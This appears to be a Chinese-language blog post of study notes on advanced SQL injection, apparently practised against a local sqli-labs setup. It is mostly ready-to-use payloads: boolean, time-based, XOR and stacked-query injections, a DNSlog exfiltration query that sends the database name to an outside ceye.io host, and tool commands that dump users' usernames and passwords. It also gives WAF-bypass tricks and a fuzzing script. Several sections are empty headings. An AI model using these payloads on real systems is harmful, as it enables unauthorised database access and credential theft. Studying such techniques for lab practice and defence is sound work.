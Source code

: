 ```yaml
---
layout: post
title: SQL注入进阶
categories: [web,sql]
---
```


# 较为常规的注入 
## 函数  
```sql
    limit(0,1) #从第1个开始显示1条数据  
    if(条件,5,0) #条件成立，返回5，否则返回0    
    mid(a,b,c) #从位置b开始，截取a字符串第c位，从1开始  
    substr(a,b,c) #从位置b开始，截取字符串a的c长度  
    left(a,b) #从左侧截取a的前b位  
    length(database())=8 #判断database的长度  
    ord(x)=85或ascii(x)=85  
```
***
## 布尔盲注
>用left(database(),x)判断数据库长度  

---
## 延时盲注
![9](/img/sql9.png)
![10](/img/sql10.png)
>如果有id=1 and sleep(if(database()='a',b,1))则sleep(1)  
---
## 堆叠查询
```sql
    mysql_query():一条查询  
    mysqli_multi_query():多条查询
```
>使用handler 命令查看表中的「数据」，需要注意的是，表名如果是数字，则需要使用反引号包裹起来，payload如下：  
>?id=0';handler `tablename` open;handler `tablename` read first; -- a  
---

## 异或注入  
在参数后面的判断条件时使用^（异或符号）来达到sql注入攻击的目的  
>?id=0^substr((select(flag)from(flag)),1,1)='f'

## 宽字节注入
>仅限于中文  
![6](/img/sql6.png)
## sql绕过
## sql写shell

# 注入拓展

## 加解密注入
cookie等要先加密再注入  

## 二次注入
#### 一般只能在白盒进行
>插入恶意数据  
>引用恶意数据
 
## dnslog注入  
>要有读写权限  
解决盲注不能回显数据，效率低的问题  

### 手动注入
[DNS在线服务器](http://ceye.io/)
```sql
//查询当前数据库  
id=1'and load_file(concat("\\\\",database(),".913n8.ceye.io\\xxx.txt"))--+  
```

### 工具注入
利用DnslogSqlinj工具进入DNSlog注入  
需要使用python27环境  

```
获取数据库名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" --dbs
获取数据库security下的表名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security --tables
获取users表的列名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users --columns
获取uses表中的数据:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump
```

## 排序注入 

# waf绕过

## 数据

### 大小写  

### 加密解密

```php
//自写脚本,假如参数值经过base64加密  
<?php
    $url="http://localhost/test.php?a=";
    $urls=$url.base64_encode($_GET['sqli']);
    $result=file_get_contents($urls);
    echo $result;
?>   
```  

### 编码解码  

### 等价函数  

### 特殊符号  

### 反序列化  

### 注释符混用  

```
union/**/select
%23a%0A   #号接上换行符  
/*!union select*/
id=1/**&id=-1 union select 1,2,3#*/ 此时waf不会识别/***/里的内容，但是会参数污染识别到最后一个参数  
```  

### http参数污染
>PHP/Apache 获取参数，若是相同的参数，则获取最后一个参数的值  

### Fuzz模糊测试
用字典写脚本访问
```py
import requests
import time
url="xxxx"
for sqli in open('payload.txt'):
    url=url+sqli
    result=requests.get(url).text
    if(result.find('xx')==-1):
        print("注入成功")
    time.sleep(1)
```
